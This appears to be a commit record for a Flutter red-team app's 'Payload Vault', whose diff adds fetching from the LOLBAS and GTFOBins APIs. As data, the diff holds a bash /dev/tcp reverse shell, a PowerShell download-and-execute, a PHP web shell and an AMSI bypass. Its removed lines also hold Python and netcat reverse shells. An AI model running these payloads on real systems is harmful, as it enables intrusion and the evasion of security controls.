

Before and after one commit to AbdoFawzi777/redops-hub, a Flutter app: the screen it shows once a user with an empty profile is signed in, item 4 of the bottom bar chosen, on a phone screen of 412 x 824 dp, the part 75-1236 px from its top. Run offline on Flutter 3.47's test engine with Material 3 defaults, Android fonts, the phone set to English and light mode, and no system bars; drawn by our look-alikes of flutter_animate; our stand-ins replace cloud_firestore, connectivity_plus, dio, firebase_auth, firebase_core, flutter_riverpod and 10 more; missing offline and left inert: firebase_app_check, safe_device; accounts and stored records are empty; generated files the repository leaves out were written again; network calls fail.

Commit message:
feat: integrate live LOLBAS and GTFOBins APIs into Payload Vault and link with Riverpod providers

```diff
--- a/lib/features/payload_vault/data/datasources/payload_local_datasource.dart
+++ b/lib/features/payload_vault/data/datasources/payload_local_datasource.dart
@@ -0,0 +1,109 @@
+import 'package:dio/dio.dart';
+import 'dart:developer' as developer;
+import '../../domain/entities/payload.dart';
+
+class PayloadLocalDataSource {
+  final Dio _dio = Dio(BaseOptions(
+    connectTimeout: const Duration(seconds: 8),
+    receiveTimeout: const Duration(seconds: 8),
+  ));
+
+  // Static fallback payloads for offline mode or web testing
+  final List<Payload> _staticPayloads = [
+    Payload(
+      title: 'Bash Reverse Shell',
+      category: 'LINUX',
+      description: 'Classic interactive bash reverse shell command.',
+      code: 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1',
+      source: 'Custom',
+    ),
+    Payload(
+      title: 'PowerShell IEX Download',
+      category: 'WINDOWS',
+      description: 'Download and execute a script in memory.',
+      code: 'powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString(\'http://10.10.10.10/shell.ps1\')"',
+      source: 'Custom',
+    ),
+    Payload(
+      title: 'PHP Web Shell',
+      category: 'WEB',
+      description: 'One-liner PHP shell for command execution.',
+      code: '<?php system(\$_GET["cmd"]); ?>',
+      source: 'Custom',
+    ),
+    Payload(
+      title: 'AMSI Bypass (PowerShell)',
+      category: 'EVASION',
+      description: 'Patching AMSI in memory to bypass security checks.',
+      code: '[Ref].Assembly.GetType(\'System.Management.Automation.AmsiUtils\').GetField(\'amsiInitFailed\',\'NonPublic,Static\').SetValue(\$null,\$true)',
+      source: 'Custom',
+    ),
+  ];
+
+  Future<List<Payload>> getPayloads() async {
+    final List<Payload> allPayloads = List.from(_staticPayloads);
+
+    // 1. Fetch & Parse LOLBAS (Windows Binaries Bypass API)
+    try {
+      final response = await _dio.get('https://lolbas-project.github.io/api/lolbas.json');
+      if (response.statusCode == 200 && response.data is List) {
+        final List data = response.data;
+        for (var item in data) {
+          final String name = item['Name'] ?? 'Unknown';
+          final String desc = item['Description'] ?? '';
+          final List commands = item['Commands'] ?? [];
+          for (var cmd in commands) {
+            final String cmdText = cmd['Command'] ?? '';
+            final String cmdDesc = cmd['Description'] ?? desc;
+            final String category = (cmd['Category'] ?? 'Evasion').toString().toUpperCase();
+
+            if (cmdText.isNotEmpty) {
+              allPayloads.add(Payload(
+                title: '$name - $category',
+                category: 'WINDOWS',
+                description: cmdDesc,
+                code: cmdText,
+                source: 'LOLBAS',
+              ));
+            }
+          }
+        }
+      }
+    } catch (e) {
+      developer.log('Failed to fetch LOLBAS live API', name: 'PayloadVault', error: e);
+    }
+
+    // 2. Fetch & Parse GTFOBins (Linux Binaries Bypass API)
+    try {
+      final response = await _dio.get('https://gtfobins.github.io/api/binaries.json');
+      if (response.statusCode == 200 && response.data is Map) {
+        final Map data = response.data;
+        data.forEach((binary, value) {
+          if (value is Map) {
+            value.forEach((functionName, cmdList) {
+              if (cmdList is List) {
+                for (var cmd in cmdList) {
+                  final String codeText = cmd['code'] ?? '';
+                  final String desc = cmd['description'] ?? 'Execute Unix commands via $binary.';
+                  if (codeText.isNotEmpty) {
+                    allPayloads.add(Payload(
+                      title: '$binary - ${functionName.toString().toUpperCase()}',
+                      category: 'LINUX',
+                      description: desc,
+                      code: codeText,
+                      source: 'GTFOBins',
+                    ));
+                  }
+                }
+              }
+            });
+          }
+        });
+      }
+    } catch (e) {
+      developer.log('Failed to fetch GTFOBins live API', name: 'PayloadVault', error: e);
+    }
+
+    return allPayloads;
+  }
+}
--- a/lib/features/payload_vault/domain/entities/payload.dart
+++ b/lib/features/payload_vault/domain/entities/payload.dart
@@ -0,0 +1,15 @@
+class Payload {
+  final String title;
+  final String category;
+  final String description;
+  final String code;
+  final String source; // e.g., 'LOLBAS', 'GTFOBins', 'Custom'
+
+  Payload({
+    required this.title,
+    required this.category,
+    required this.description,
+    required this.code,
+    required this.source,
+  });
+}
--- /dev/null
+++ b/lib/features/payload_vault/presentation/providers/payload_providers.dart
@@ -0,0 +1,30 @@
+import 'package:flutter_riverpod/flutter_riverpod.dart';
+import '../../data/datasources/payload_local_datasource.dart';
+import '../../domain/entities/payload.dart';
+
+final payloadDataSourceProvider = Provider<PayloadLocalDataSource>((ref) {
+  return PayloadLocalDataSource();
+});
+
+final payloadListProvider = FutureProvider<List<Payload>>((ref) async {
+  return ref.watch(payloadDataSourceProvider).getPayloads();
+});
+
+final payloadSearchQueryProvider = StateProvider<String>((ref) => '');
+final payloadCategoryProvider = StateProvider<String>((ref) => 'ALL');
+
+final filteredPayloadsProvider = Provider<AsyncValue<List<Payload>>>((ref) {
+  final listAsync = ref.watch(payloadListProvider);
+  final query = ref.watch(payloadSearchQueryProvider).toLowerCase();
+  final selectedCat = ref.watch(payloadCategoryProvider);
+
+  return listAsync.whenData((payloads) {
+    return payloads.where((p) {
+      final matchesCat = selectedCat == 'ALL' || p.category == selectedCat || p.source == selectedCat;
+      final matchesSearch = p.title.toLowerCase().contains(query) ||
+          p.description.toLowerCase().contains(query) ||
+          p.code.toLowerCase().contains(query);
+      return matchesCat && matchesSearch;
+    }).toList();
+  });
+});
--- a/lib/features/payload_vault/presentation/screens/payload_vault_screen.dart
+++ b/lib/features/payload_vault/presentation/screens/payload_vault_screen.dart
@@ -6,6 +6,9 @@ import 'package:gap/gap.dart';
 import '../../../../core/theme/app_colors.dart';
 import '../../../../core/localization/app_translations.dart';
 import '../../../../shared/widgets/redops_header.dart';
+import '../../../../shared/widgets/tactical_loader.dart';
+import '../../domain/entities/payload.dart';
+import '../providers/payload_providers.dart';
 
 class PayloadVaultScreen extends ConsumerStatefulWidget {
   const PayloadVaultScreen({super.key});
@@ -15,76 +18,20 @@ class PayloadVaultScreen extends ConsumerStatefulWidget {
 }
 
 class _PayloadVaultScreenState extends ConsumerState<PayloadVaultScreen> {
-  String _searchQuery = '';
-  String _selectedCategory = 'ALL';
-
   final List<String> _categories = [
     'ALL',
-    'WEB',
     'WINDOWS',
     'LINUX',
-    'EVASION',
-    'NETWORKING'
+    'WEB',
+    'LOLBAS',
+    'GTFOBins'
   ];
-
-  final List<_PayloadItem> _payloads = [
-    _PayloadItem(
-      title: 'Bash Reverse Shell',
-      category: 'LINUX',
-      description: 'Classic interactive bash reverse shell command.',
-      code: 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1',
-      icon: Icons.terminal,
-    ),
-    _PayloadItem(
-      title: 'PowerShell IEX Download',
-      category: 'WINDOWS',
-      description: 'Download and execute a script in memory.',
-      code: 'powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString(\'http://10.10.10.10/shell.ps1\')"',
-      icon: Icons.desktop_windows,
-    ),
-    _PayloadItem(
-      title: 'PHP Web Shell (Simple)',
-      category: 'WEB',
-      description: 'One-liner PHP shell for command execution.',
-      code: '<?php system(\$_GET["cmd"]); ?>',
-      icon: Icons.language,
-    ),
-    _PayloadItem(
-      title: 'Python Reverse Shell',
-      category: 'LINUX',
-      description: 'Python one-liner for a socket-based reverse shell.',
-      code: 'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")\'',
-      icon: Icons.code,
-    ),
-    _PayloadItem(
-      title: 'Netcat Traditional',
-      category: 'NETWORKING',
-      description: 'Reverse shell using the -e flag (traditional nc).',
-      code: 'nc -e /bin/sh 10.10.10.10 4444',
-      icon: Icons.settings_input_component,
-    ),
-    _PayloadItem(
-      title: 'AMSI Bypass (PowerShell)',
-      category: 'EVASION',
-      description: 'Patching AMSI in memory to bypass security checks.',
-      code: '[Ref].Assembly.GetType(\'System.Management.Automation.AmsiUtils\').GetField(\'amsiInitFailed\',\'NonPublic,Static\').SetValue(\$null,\$true)',
-      icon: Icons.security_outlined,
-    ),
-  ];
-
-  List<_PayloadItem> get _filteredPayloads {
-    return _payloads.where((p) {
-      final matchCat = _selectedCategory == 'ALL' || p.category == _selectedCategory;
-      final matchSearch = p.title.toLowerCase().contains(_searchQuery.toLowerCase()) ||
-          p.description.toLowerCase().contains(_searchQuery.toLowerCase());
-      return matchCat && matchSearch;
-    }).toList();
-  }
 
   @override
   Widget build(BuildContext context) {
     final s = ref.watch(l10nProvider);
     final isDark = Theme.of(context).brightness == Brightness.dark;
+    final filteredAsync = ref.watch(filteredPayloadsProvider);
 
     return Scaffold(
       backgroundColor: Theme.of(context).scaffoldBackgroundColor,
@@ -93,12 +40,23 @@ class _PayloadVaultScreenState extends ConsumerState<PayloadVaultScreen> {
           children: [
             RedOpsHeader(
               title: s.vaultTitle,
-              subtitle: s.vaultSubtitle,
+              subtitle: 'Tactical bypass and exploit payload repository',
             ),
             _buildSearch(isDark, s),
+            const Gap(6),
             _buildCategories(isDark),
+            const Gap(10),
             Expanded(
-              child: _buildList(s),
+              child: filteredAsync.when(
+                data: (payloads) => _buildList(payloads, s),
+                loading: () => const Center(child: TacticalLoader(size: 100)),
+                error: (err, _) => Center(
+                  child: Text(
+                    'FAILED TO SYNC PAYLOADS: $err',
+                    style: const TextStyle(color: AppColors.criticalFg, fontWeight: FontWeight.bold),
+                  ),
+                ),
+              ),
             ),
           ],
         ),
@@ -110,14 +68,14 @@ class _PayloadVaultScreenState extends ConsumerState<PayloadVaultScreen> {
     return Padding(
       padding: const EdgeInsets.symmetric(horizontal: 20, vertical: 8),
       child: TextField(
-        onChanged: (v) => setState(() => _searchQuery = v),
+        onChanged: (v) => ref.read(payloadSearchQueryProvider.notifier).state = v,
         style: TextStyle(
           color: isDark ? AppColors.textPrimary : AppColors.lightTextPrimary,
           fontSize: 14,
           fontFamily: 'monospace'
         ),
         decoration: InputDecoration(
-          hintText: s.searchVault,
+          hintText: 'Search LOLBAS, GTFOBins, Web shells...',
           prefixIcon: Icon(
             Icons.search,
             color: isDark ? AppColors.redPrimary : AppColors.deepBlue,
@@ -140,6 +98,7 @@ class _PayloadVaultScreenState extends ConsumerState<PayloadVaultScreen> {
 
   Widget _buildCategories(bool isDark) {
     final primaryColor = isDark ? AppColors.redPrimary : AppColors.deepBlue;
+    final selectedCategory = ref.watch(payloadCategoryProvider);
 
     return SizedBox(
       height: 38,
@@ -150,9 +109,9 @@ class _PayloadVaultScreenState extends ConsumerState<PayloadVaultScreen> {
         separatorBuilder: (_, __) => const SizedBox(width: 8),
         itemBuilder: (_, i) {
           final cat = _categories[i];
-          final isSelected = cat == _selectedCategory;
+          final isSelected = cat == selectedCategory;
           return GestureDetector(
-            onTap: () => setState(() => _selectedCategory = cat),
+            onTap: () => ref.read(payloadCategoryProvider.notifier).state = cat,
             child: AnimatedContainer(
               duration: 200.ms,
               padding: const EdgeInsets.symmetric(horizontal: 14, vertical: 8),
@@ -180,25 +139,24 @@ class _PayloadVaultScreenState extends ConsumerState<PayloadVaultScreen> {
     ).animate().fadeIn(delay: 200.ms);
   }
 
-  Widget _buildList(AppStrings s) {
-    final items = _filteredPayloads;
-    if (items.isEmpty) {
+  Widget _buildList(List<Payload> payloads, AppStrings s) {
+    if (payloads.isEmpty) {
       return Center(
         child: Text(s.noDataFound, style: const TextStyle(color: AppColors.textTertiary)),
       );
     }
     return ListView.separated(
-      padding: const EdgeInsets.all(20),
-      itemCount: items.length,
+      padding: const EdgeInsets.fromLTRB(20, 10, 20, 100),
+      itemCount: payloads.length,
       separatorBuilder: (_, __) => const Gap(16),
-      itemBuilder: (context, index) => _PayloadCard(payload: items[index], index: index),
+      itemBuilder: (context, index) => _PayloadCard(payload: payloads[index], index: index),
     );
   }
 }
 
 class _PayloadCard extends ConsumerStatefulWidget {
   const _PayloadCard({required this.payload, required this.index});
-  final _PayloadItem payload;
+  final Payload payload;
   final int index;
 
   @override
@@ -217,12 +175,23 @@ class _PayloadCardState extends ConsumerState<_PayloadCard> {
     });
     ScaffoldMessenger.of(context).showSnackBar(
       SnackBar(
-        content: Text('${s.copied.toUpperCase()}: ${widget.payload.title.toUpperCase()}'),
+        content: Text('COPIED: ${widget.payload.title.toUpperCase()}'),
         backgroundColor: AppColors.redPrimary,
         duration: const Duration(seconds: 1),
         behavior: SnackBarBehavior.floating,
       ),
     );
+  }
+
+  IconData _getCategoryIcon() {
+    if (widget.payload.source == 'LOLBAS') return Icons.desktop_windows_rounded;
+    if (widget.payload.source == 'GTFOBins') return Icons.terminal_rounded;
+    switch (widget.payload.category.toUpperCase()) {
+      case 'WINDOWS': return Icons.desktop_windows_rounded;
+      case 'LINUX': return Icons.terminal_rounded;
+      case 'WEB': return Icons.language_rounded;
+      default: return Icons.code_rounded;
+    }
   }
 
   @override
@@ -250,23 +219,41 @@ class _PayloadCardState extends ConsumerState<_PayloadCard> {
                 color: isDark ? AppColors.bg800 : AppColors.lightScaffold,
                 borderRadius: BorderRadius.circular(8),
               ),
-              child: Icon(widget.payload.icon, color: primaryColor, size: 20),
+              child: Icon(_getCategoryIcon(), color: primaryColor, size: 20),
             ),
             title: Text(
               widget.payload.title,
+              maxLines: 1,
+              overflow: TextOverflow.ellipsis,
               style: TextStyle(
                 color: isDark ? AppColors.textPrimary : AppColors.lightTextPrimary,
                 fontWeight: FontWeight.bold,
                 fontSize: 14
               ),
             ),
-            subtitle: Text(
+            subtitle: Row(
+              children: [
+                Text(
                   widget.payload.category,
                   style: TextStyle(
                     color: isDark ? AppColors.textTertiary : AppColors.lightTextTertiary,
                     fontSize: 10,
                     fontWeight: FontWeight.w900
                   ),
+                ),
+                const Gap(8),
+                Container(
+                  padding: const EdgeInsets.symmetric(horizontal: 4, vertical: 2),
+                  decoration: BoxDecoration(
+                    color: primaryColor.withValues(alpha: 0.1),
+                    borderRadius: BorderRadius.circular(4),
+                  ),
+                  child: Text(
+                    widget.payload.source.toUpperCase(),
+                    style: TextStyle(color: primaryColor, fontSize: 8, fontWeight: FontWeight.bold),
+                  ),
+                ),
+              ],
             ),
             trailing: Icon(
               _isExpanded ? Icons.keyboard_arrow_up : Icons.keyboard_arrow_down,
@@ -312,7 +299,7 @@ class _PayloadCardState extends ConsumerState<_PayloadCard> {
                     child: OutlinedButton.icon(
                       onPressed: () => _copyToClipboard(s),
                       icon: Icon(_isCopied ? Icons.check : Icons.copy, size: 16),
-                      label: Text(_isCopied ? s.copied.toUpperCase() : s.copyPayload),
+                      label: Text(_isCopied ? 'COPIED' : 'COPY PAYLOAD'),
                       style: OutlinedButton.styleFrom(
                         foregroundColor: _isCopied ? AppColors.live : primaryColor,
                         side: BorderSide(color: _isCopied ? AppColors.live : primaryColor),
@@ -324,22 +311,6 @@ class _PayloadCardState extends ConsumerState<_PayloadCard> {
             ),
         ],
       ),
-    ).animate().fadeIn(delay: (widget.index * 100).ms).slideX(begin: 0.1, end: 0);
+    ).animate(delay: (widget.index * 50).ms).fadeIn(duration: 300.ms).slideX(begin: 0.1, end: 0);
   }
 }
-
-class _PayloadItem {
-  final String title;
-  final String category;
-  final String description;
-  final String code;
-  final IconData icon;
-
-  _PayloadItem({
-    required this.title,
-    required this.category,
-    required this.description,
-    required this.code,
-    required this.icon,
-  });
-}
```
Lines whose indentation alone changed are shown as unchanged.
